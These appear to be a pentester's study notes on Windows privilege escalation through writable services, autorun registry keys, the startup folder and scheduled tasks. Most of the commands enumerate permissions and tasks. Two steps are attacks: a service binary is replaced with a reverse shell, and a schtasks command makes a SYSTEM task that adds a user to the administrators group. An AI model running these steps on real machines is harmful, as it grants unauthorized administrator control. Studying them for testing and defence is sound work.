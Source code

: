 ## requires the ability to restart windows

```
winpeas.exe applicationsinfo:
# reveals a service which is writeable by all users everyone all access
```

`confirm manually:`
```
accesschk.exe /accepteula -wvu  `PATH`
   file_all_access
   ```
   ![[Pasted image 20250826214911.png]]
   ```
   overwrite original .exe with  reverse-shell.exe
   ```
- Restart windows
---
- startup folder
- scheduled tasks
- registry autorun keys
## **3. Check Registry Autorun Keys**
**Exploit 1**: If you can write inside any of the mentioned registry inside **HKLM** you can escalate privileges when a different user logs in.

**Exploit 2**: If you can overwrite any of the binaries indicated on any of the registry inside **HKLM** you can modify that binary with a backdoor when a different user logs in and escalate privileges.
Autoruns are usually under:
- winlogon keys

- If the **binary or path** is **writable** by a low-privileged user, you can:
    - **Replace** it with a malicious binary.
    - **Modify the path** to point to your executable.

## .4 startup Folder
If you see **WRITE** or **FULL** for your account, it's exploitable.
```
`icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`
	
	.\accesschk.exe -d -wvuq "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

    -d → directory

    -w → writable

    -u → show user rights

    -q → quiet mode (only results)
```

#### Check Startup Programs

```powershell-session
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl


Name     : VMware VM3DService Process
command  : "C:\WINDOWS\system32\vm3dservice.exe" -u
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public
```
## [Scheduled Tasks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html#scheduled-tasks)
Look for:

- `Run As User`: **SYSTEM** or Administrator
- `Task To Run`: Path to EXE/script

**Tasks** can be schedules to run with **certain frequency**. See which binaries are scheduled to run with:

```bash
schtasks /query /fo TABLE /nh | findstr /v /i "disable deshab"
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

`creating a scheduled task to gain admin`
```
#You can also write that content on a bat file that is being executed by a scheduled task

schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c net localgroup administrators vipa0z /add"
```
#### **Check Permissions on Task File**

Scheduled tasks are stored as XML under:
accesschk.exe -wvuq "C:\Windows\System32\Tasks"


https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html